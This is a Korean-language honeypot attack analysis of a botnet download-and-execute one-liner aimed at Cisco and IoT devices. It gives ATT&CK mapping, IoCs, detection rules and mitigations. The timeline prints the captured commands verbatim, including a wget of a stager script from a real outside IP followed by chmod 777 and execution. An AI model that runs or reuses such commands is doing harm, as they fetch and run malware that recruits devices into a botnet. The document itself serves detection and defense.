

# 🛡️ Attack Analysis: Cisco-Targeted Botnet Payload Deployment

## 1. 개요 (Executive Summary)
본 분석은 Cowrie 허니팟에 탐지된 특정 제조사(Cisco) 장비를 타겟팅하는 악성코드 배포 수법을 다룹니다. 공격자는 `/tmp` 디렉토리를 거점으로 삼아 외부에서 쉘 스크립트를 반입하고, 즉시 실행 권한을 부여하여 구동하는 전형적인 **One-liner** 공격 패턴을 보였습니다.

- **분석 일시:** 2026-02-16
- **공격자 IP:** `100.76.84.112` (미국, Microsoft Limited)
- **위협 수준:** High (Potential Mirai/Gafgyt Variant)
- **타겟 서비스:** SSH / Telnet (IoT/Network Devices)

---

## 2. TTP 분석 (MITRE ATT&CK Matrix)
공격자의 행위를 MITRE ATT&CK 프레임워크에 기반하여 분석한 결과입니다.

| 전술 (Tactics) | 기법 ID | 기법명 (Technique) | 상세 행위 |
|:---|:---|:---|:---|
| **Execution** | T1059.004 | Unix Shell | 세미콜론(`;`)을 사용한 원샷 페이로드 배포 |
| **Persistence** | T1105 | Ingress Tool Transfer | 외부 C2 서버에서 `ur0a.sh` 다운로드 |
| **Defense Evasion** | T1222.002 | Permission Modification | `chmod 777`을 통한 비정상적인 전권한 부여 |
| **Execution** | T1204.002 | Malicious File | 특정 인자값(`cisco`)을 전달하여 아키텍처별 맞춤형 실행 |

---

## 3. IoC (Indicators of Compromise)
본 공격과 관련된 주요 침투 지표입니다.

| 유형 | 값 (Value) | 비고 |
|:---|:---|:---|
| **IPv4** | `100.76.84.112` | 페이로드 호스팅 서버 및 C2 |
| **URL** | `http://100.76.84.112/ur0a.sh` | 악성 스크립트 배포 경로 |
| **File Name** | `ur0a.sh` | 스테이저(Stager) 쉘 스크립트 |
| **Command** | `./ur0a.sh cisco` | 장비 타겟팅 실행 인자 |

---

## 4. 공격 타임라인 및 분석 (Attack Lifecycle)

제공된 로그 분석 결과, 공격자는 세션 연결 직후 약 1초 내에 자동화된 스크립트를 통해 다음의 침투 및 페이로드 배포 명령어를 집중적으로 수행했습니다.

| 시간 (UTC) | 명령어 (Input) | 분석 및 의도 |
|:---|:---|:---|
| 17:48:01 | `cd /tmp` | 쓰기 권한이 확보된 임시 디렉토리로 이동하여 공격 거점 마련 |
| 17:48:01 | `wget http://100.76.84.112/ur0a.sh` | 외부 C2 서버로부터 2차 스테이저 페이로드(`ur0a.sh`) 다운로드 |
| 17:48:02 | `chmod 777 ur0a.sh` | 보안 정책 무력화 및 모든 사용자에 대한 완전한 실행 권한 부여 |
| 17:48:02 | `./ur0a.sh cisco` | 특정 아키텍처(Cisco) 인자를 전달하여 맞춤형 악성코드 최종 실행 |

### 실제 탐지 화면 (Cowrie Dashboard)

> **비고:** AbuseIPDB 기준 해당 IP(`100.76.84.112`)는 77/100의 위험도를 가진 상습 공격지로 확인되었으며, 다수의 봇넷 활동 이력이 보고되었습니다.

---

## 5. 탐지 전략 (Detection Strategy)

본 사례는 수법의 공통성을 고려하여 통합된 **Defense-in-Depth** 탐지 모델을 적용합니다.

### A. 개별 이벤트 탐지 (Atomic Detection)
* **파일명:** [`linux_shell_download_oneliner.yml`](../../sigma_rules/standard/linux_shell_download_oneliner.yml)
* **설명:** `ur0a.sh`, `cat.sh`와 같이 정형화된 봇넷 파일명과 `chmod 777` 등 위험한 권한 변경 행위를 개별적으로 식별합니다.

### B. 상관관계 분석 (Correlation Detection)
* **파일명:** [`shell_download_execution_sequence.yml`](../../sigma_rules/correlation/shell_download_execution_sequence.yml)
* **설명:** **`temporal_ordered`** 모델을 적용합니다. [다운로드 → 권한 변경 → 실행]으로 이어지는 일련의 행위가 동일 세션 내에서 순차적으로 발생할 경우, 이를 확정적 감염 단계로 분류하여 `Critical` 알람을 생성합니다.

---

## 6. 대응 권고 사항 (Mitigation)

* **Egress Filtering:** 방화벽에서 알려진 악성 IP(`100.76.84.112`) 및 비정상적인 아웃바운드 80/443 포트 통신을 모니터링하고 차단하십시오.
* **System Hardening:** `/tmp`, `/var/tmp` 등 공용 쓰기 권한 폴더에 `noexec` 마운트 옵션을 적용하여 임의 바이너리 실행을 원천 차단하십시오.
* **Identity Management:** IoT 및 네트워크 장비의 제조사 기본 비밀번호(Default Password)를 즉시 변경하고, 가능하다면 SSH 패스워드 인증 대신 키 기반 인증을 사용하십시오.

---
**Authored by**: [@BISHOP1027](https://github.com/BISHOP1027)